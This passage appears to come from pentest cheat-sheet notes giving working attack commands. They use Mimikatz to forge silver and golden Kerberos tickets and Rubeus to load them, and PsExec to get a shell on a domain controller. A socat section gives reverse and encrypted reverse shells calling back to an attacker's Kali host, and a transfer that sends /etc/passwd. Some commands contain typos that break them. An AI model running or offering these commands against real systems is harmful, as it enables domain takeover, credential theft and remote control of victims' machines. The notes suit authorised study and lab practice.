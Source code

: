 - `kerberos::golden /sid:<SID (remove last 4 digits after dash)> /domain:<Domain FQDN> /user:<user to impersonate (need user's hash too at the end)> /service:<service we are trying to connect to, in our example is HTTP> /target:<The target server (workstation-02.krbtown.local)> /rc4:<the password hash of the service account in our case Administrator>`
- Mimikatz will save the output as ticket.kirbi
- using Rubeus to load the ticket into our current session:
- `Rubeus.exe ptt /ticket:ticket.kirbi`
- now we can connect to the iis_service from this session
- **Golden Ticket attack**
- needed:
- Domain SID
- Domain FQDN
- KRBTGT's password hash
- Username to impersonate
- `whoami /user`
- `systeminfo | findstr /B /C:"Domain"`
- The KRBTGT's password hash can only be dumped after becoming domain administrator and either performing a password dump on the DC, a DCSync attack or a shadow copy on the DC. The user to impersonate can be any user of the domain even a non existing one with administrator RID.
- `kerberos::golden /sid:<Domain SID> /domain:<Domain FQDN> /user:<The user to impersonate> /krbtgt:<The password hash of the KRBTGT account>`
- load the created ticket into memory and then use psexec to get a shell on the target machine
- `Rubeus.exe ptt /ticket:ticket.kirbi`
- `PsExec.exe \\dc01.krbtown.local cmd`

## socat

- `socat -d -d TCP-LISTEN:1234 -`
- `socat -d -d TCP-CONNECT:127.0.0.1:1234 -`
- **as a redirector:** `socat TCP-LISTEN:80,fork,reuseaddr TCP:<IP>:<PORT>`
- **transferring files:**
    - `socat -d -d TCP-LISTEN:1234 OPEN:filetransfer.txt,create`
    - `socat -d -d TCP-CONNECT:127.0.0.1:1234 FILE:/etc/passwd`
- **listener for reverse shell:** `socat -d -d TCP-LISTEN:443 STDOUT`
- **executing commands on Win:**
    - `socat -d -d TCP-LISTEN:1234 EXEC:'cmd.exe',pipes`
- **executing cmd exe from Win to connect back to kali:**
    - `socat TCP4:192.168.119.198:443 EXE:`
- **encrypted reverse shell:** `socat -d -d OPENSSL-LITEN:5557,cert=bind)shell.pem,verify=0,fork STDOUT`
- **connecting back with encryption from Windows:** `socat OPENSSL:192.168.119.198:5556,verify=0 EXEC:'cmd.exe',pipes`
- **if victim was a Linux machine this is the syntax:** `socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash`
- you also have to generate a certificate first, see more details **[here](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)** (check that link out, it's a great blog post)
- For generating the cert here is a quick description from the source link above: "We will use OpenSSL encryption for this which is very easy to accomplish. We start by generating a key and a certificate using the following command:

`openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt`
